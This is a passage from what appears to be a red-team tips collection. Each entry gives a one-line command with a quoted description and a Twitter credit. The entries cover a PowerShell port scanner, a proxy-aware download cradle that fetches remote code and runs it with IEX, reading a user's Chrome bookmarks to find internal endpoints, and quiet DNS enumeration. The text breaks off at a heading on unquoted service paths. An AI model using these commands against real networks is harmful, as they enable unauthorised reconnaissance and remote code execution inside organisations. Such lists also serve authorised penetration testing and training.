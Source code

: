 **Link:** [Twitter](https://twitter.com/GuhnooPlusLinux/status/1607473627922063360)

### [🔙](#tool-list)Live off the land port scanner

```bash
0..65535 | % {echo ((new-object Net.Sockets.TcpClient).Connect(<tgt_ip>,$_)) "Port $_ open"} 2>$null
```

**Description:** *'When possible, live off the land rather than uploading tools to machines (for many reasons). PowerShell/.NET help. Ex: simple port scanner in Powershell.'*

**Credit:** [@Alh4zr3d](https://twitter.com/Alh4zr3d)

**Link:** [Twitter](https://twitter.com/Alh4zr3d/status/1605060950339588096)

### [🔙](#tool-list)Proxy aware PowerShell DownloadString

```bash
$w=(New-Object Net.WebClient);$w.Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;IEX $w.DownloadString("<url>")
```

**Description:** *'Most large orgs are using web proxies these days. The standard PowerShell download cradle is not proxy aware. Use this one.'*

**Credit:** [@Alh4zr3d](https://twitter.com/Alh4zr3d)

**Link:** [Twitter](https://twitter.com/Alh4zr3d/status/1596192664398966785)

### [🔙](#tool-list)Looking for internal endpoints in browser bookmarks

```bash
type "C:\Users\%USERNAME%\AppData\Local\Google\Chrome\User Data\Default\Bookmarks.bak" | findstr /c "name url" | findstr /v "type"
```

**Description:** *'You'd be surprised what you can find out from a user's bookmarks alone. Internal endpoints they can access, for instance.'*

**Credit:** [@Alh4zr3d](https://twitter.com/Alh4zr3d)

**Link:** [Twitter](https://twitter.com/Alh4zr3d/status/1595488676389171200)

### [🔙](#tool-list)Query DNS records for enumeration

```bash
Get-DnsRecord -RecordType A -ZoneName FQDN -Server <server hostname>
```

**Description:** *'Enumeration is 95% of the game. However, launching tons of scans to evaluate the environment is very loud. Why not just ask the DC/DNS server for all DNS records?'*

**Credit:** [@Alh4zr3d](https://twitter.com/Alh4zr3d)

**Link:** [Twitter](https://twitter.com/Alh4zr3d/status/1587132627823181824)

### [🔙](#tool-list)Unquoted service paths without PowerUp
